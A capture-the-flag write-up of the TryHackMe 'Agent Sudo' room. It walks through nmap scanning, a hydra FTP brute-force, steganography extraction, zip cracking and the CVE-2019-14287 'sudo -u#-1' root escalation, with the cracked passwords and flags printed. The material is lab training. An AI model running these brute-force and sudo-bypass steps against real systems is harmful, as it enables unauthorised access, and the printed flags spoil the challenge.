 > Mon 04 Aug 2025
> al3xx

![[s10.png|350]]

# Agent Sudo [Link](https://tryhackme.com/room/agentsudoctf)

## 1. Reconnaissance
### TCP Scan
```bash
sudo nmap -sC -sV -T4 10.10.253.126 -oN tryhackme/nmap.txt
```


| Port | Service | Version                         |
| ---- | ------- | ------------------------------- |
| 21   | ftp     | vsftpd 3.0.3                    |
| 22   | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80   | http    | Apache httpd 2.4.29 ((Ubuntu))  |

## 2. Enumeration
### Web Enumeration
- Port **80** is open
- On visiting the page, a message suggests changing the `User-Agent` header.
- After cycling through various capital letters, discovered interaction with `User-Agent: C`.
```bash
curl http://10.10.253.126 -L -H "User-Agent: C"
```
Response:
```Text
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```
* Discovered user `chris` and a possible password weakness.

### FTP Enumeration
- Port **21** is open
- Used the discovered username from HTTP (`chris`) to brute-force FTP login.

## 3. Exploitation
### FTP brute-force
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.253.126
```
Result:
```bash
[21][ftp] host: 10.10.253.126   login: chris   password: crystal
```
- Logged into FTP:
```bash
ftp 10.10.253.126
Name (10.10.253.126:kali): chris
Password: crystal
```
Login successful

## 4. Post-Exploitation
#### **FTP Content**
```bash
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
**To_agentJ.txt:**
```TEXT
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

#### **cutie.png Analysis (binwalk + zip2john)**
```bash
binwalk -e cutie.png
```
Found `8702.zip` inside the image. Extracted and cracked the ZIP password:
```bash
$ zip2john 8702.zip > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
**Password:** `alien`
Unzipped:
```bash
7z x 8702.zip
```
Revealed:
```TEXT
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
Decoded with Base64:
```bash
$ echo "QXJlYTUx" | base64 -d
```
**Output:** `Area51`

#### **cute-alien.jpg Analysis (steghide)**
```bash
steghide extract -sf cute-alien.jpg
```
Found:
```TEXT
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

#### User Flag
SSH into the box:
```
ssh james@10.10.253.126
```

```bash
cat ~/user_flag.txt
```
Flag: b03d975e8c92a7c04146cfa7a5a313c7
#### Root Flag
After privilege escalation:
```TEXT
cat /root/root.txt
```
**Flag:** `b53a02f55b57d4439e3341834d70c062`

## 5. Privilege Escalation
CVE-2019-14287 – Sudo Bypass
```bash
sudo -l
```
Output:
```bash
User james may run the following commands on this host:
    (ALL, !root) /bin/bash
```
Even though root is blacklisted, using `-u#-1` bypasses this:
```bash
sudo -u#-1 /bin/bash
```
You now have a root shell.

## 6. Lessons Learned / Notes
* **Tools or techniques to remember:**
	* `steghide`, `binwalk`, `zip2john`, `john`, `hydra`, `curl -H "User-Agent"`, `sudo -u#-1`.
